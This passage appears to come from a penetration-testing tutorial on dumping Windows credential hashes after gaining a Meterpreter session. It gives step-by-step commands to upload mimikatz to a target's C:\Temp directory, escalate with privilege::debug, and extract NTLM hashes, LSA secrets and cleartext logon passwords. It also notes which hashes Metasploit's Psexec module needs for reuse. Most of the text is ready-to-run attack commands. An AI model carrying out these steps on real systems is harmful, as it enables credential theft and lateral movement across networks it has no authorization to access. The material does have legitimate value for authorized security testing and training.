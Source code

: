 The output should be structured like this....
```
username : SID : LM_hash : NTLM_hash
```

We'll need to copy both the LM hash and the NTLM hash since certain exploits like the metasploit Psexec module requires both.

#### Option 2: Dumping Hashes with Mimikatz Executable

Upload the mimikatz to the target using the meterpreter/shell session, and then start mimikatz

1. **Create a Temp directory**:  It's recommended to have a Temp directory on the root of the C: drive to upload the payload to, so navigate/create the directory on the target. 
```
meterpreter> cd C:\\
meterpreter> mkdir Temp
meterpreter> cd Temp\\
```

2. **Upload the mimikatz executable**: Use the `upload` command to push mimikatz exe to the target. Metasploit has a 32-bit & 64-bit mimikatz exe available to upload such as `/usr/share/windows-resources/mimikatz/x64/mimikatz.exe`.
```
meterpreter> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

3. **Start Mimikatz**: First start the shell session using `shell` so you can run the executable. Then execute mimikatz:

```
meterpreter> shell

C:\Temp> .\mimikatz.exe
```

4. **Check privileges**:  Running `privilege::debug` ensures Mimikatz has the necessary permissions to execute its functions. If you get a "Privilege '20' Ok", then you have the necessary permissions.
```
mimikatz # privilege::debug
```

5. **Dump the hashes:** Run the `lsadump::sam` command to dump the NTLM hashes. This is provide a little more information than the kiwi extension.
```
mimikatz # lsadump::sam
```

##### Other Mimikatz Options

- `lsadump::secrets` = This is equivalent of the `lsa_dump_secrets` kiwi command which might show clear text passwords.
- **Display Logon Passwords**: Whenever a user logons to a windows systems if the system is configured to store logon passwords in cleartext then Mimikatz can display these logon passwords. You can run the `sekurlsa::logonpasswords` command for displaying the passwords but note that the passwords would likely be set to `(null)` if clear text isn't configured for the system
```
mimikatz # sekurlsa::logonpasswords
```

